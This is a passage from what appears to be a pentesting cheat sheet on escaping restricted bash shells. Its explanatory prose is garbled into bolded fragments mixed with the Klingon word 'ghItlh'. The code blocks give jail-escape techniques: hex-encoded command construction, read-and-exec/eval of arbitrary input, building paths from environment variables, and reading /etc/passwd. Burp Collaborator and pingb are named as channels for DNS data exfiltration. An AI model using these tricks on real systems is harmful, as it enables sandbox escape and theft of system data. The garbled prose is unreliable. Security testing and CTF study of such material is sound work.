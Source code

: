 ```bash
$ cat FILE | grep -o . | awk '{printf "%s ",$0}'
```
```bash
echo ${LS_COLORS:10:1} #;
echo ${PATH:0:1} #/
```
### DNS data exfiltration

**burpcollab** or [**pingb**](http://pingb.in) **ghItlh**.

### Builtins

**RCE** **ghItlh** **limited set of builtins to obtain RCE** **external functions** **execute** **cannot** **case** **handy tricks** **obtain RCE** **builtins** **won't be able to use all** **builtins** **know all your options** **try to bypass the jail** **Idea from** [**devploit**](https://twitter.com/devploit).\
**shell builtins** [**ghItlh**](https://www.gnu.org/software/bash/manual/html\_node/Shell-Builtin-Commands.html)**.** **recommendations** **here** **have some**.
```bash
# Get list of builtins
declare builtins

# In these cases PATH won't be set, so you can try to set it
PATH="/bin" /bin/ls
export PATH="/bin"
declare PATH="/bin"
SHELL=/bin/bash

# Hex
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")
$(echo -e "\x2f\x62\x69\x6e\x2f\x6c\x73")

# Input
read aaa; exec $aaa #Read more commands to execute and execute them
read aaa; eval $aaa

# Get "/" char using printf and env vars
printf %.1s "$PWD"
## Execute /bin/ls
$(printf %.1s "$PWD")bin$(printf %.1s "$PWD")ls
## To get several letters you can use a combination of printf and
declare
declare functions
declare historywords

# Read flag in current dir
source f*
flag.txt:1: command not found: CTF{asdasdasd}

# Read file with read
while read -r line; do echo $line; done < /etc/passwd

# Get env variables
declare

# Get history
history
declare history
declare historywords

# Disable special builtins chars so you can abuse them as scripts
[ #[: ']' expected
## Disable "[" as builtin and enable it as script
```